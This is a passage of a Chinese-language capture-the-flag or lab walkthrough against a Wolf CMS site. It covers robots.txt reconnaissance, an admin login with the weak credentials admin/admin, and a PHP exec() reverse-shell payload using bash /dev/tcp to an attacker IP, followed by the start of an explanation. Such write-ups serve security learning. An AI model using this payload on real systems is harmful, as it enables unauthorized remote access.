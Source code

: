 robots.txt :


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114649747-1195912403.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114649747-1195912403.png)


给了一个Dissalow：/wolfcms，尝试一下访问这个路由，尝试访问发现真的有


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114654684-1182468691.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114654684-1182468691.png)


点了一圈没有什么发现，网页都是一些静态资源，去网上搜索一下wolfcms有没有什么框架漏洞


[Wolf CMS \- Arbitrary File Upload / Execution \- PHP webapps Exploit](https://github.com)


这里发现一个长得很像登陆界面的url


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114702205-269121005.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114702205-269121005.png)


txt
```
http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/
```

确实跳转到了一个登录页


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114709385-293052887.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114709385-293052887.png)


弱密码U/P：admin admin进入wolfcms的后台


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114720121-1276733372.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114720121-1276733372.png)


### 反向连接shell


在登录wolfcms后台之后随便点点，发现有很多代码执行和文件上传的位置，比如Home Page里面就可以填写php代码


在Articles中嵌入


php
```
php</span exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.236.128/443 0>&1'");?>
```

来分析一下这个反向连接shell


`exec()` php的内置函数，用于执行外部程序 基础语法：exec(command,output,return\_var) (命令，存储命令的输出，返回状态码)


`/bin/bash` Linux系统中的Bash shell的路径 /bin/bash是Bash shell的可执行文件
